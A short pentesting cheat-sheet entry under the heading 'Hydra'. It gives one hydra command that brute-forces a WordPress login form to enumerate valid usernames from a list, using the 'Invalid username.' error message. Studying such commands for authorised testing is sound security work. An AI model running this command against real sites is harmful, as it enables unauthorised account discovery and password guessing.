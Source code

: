 ## Hydra
- Identitify Valid Username
```
hydra -L userlist.txt -p test ipaddress http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&testcookie=1:Invalid username."
```
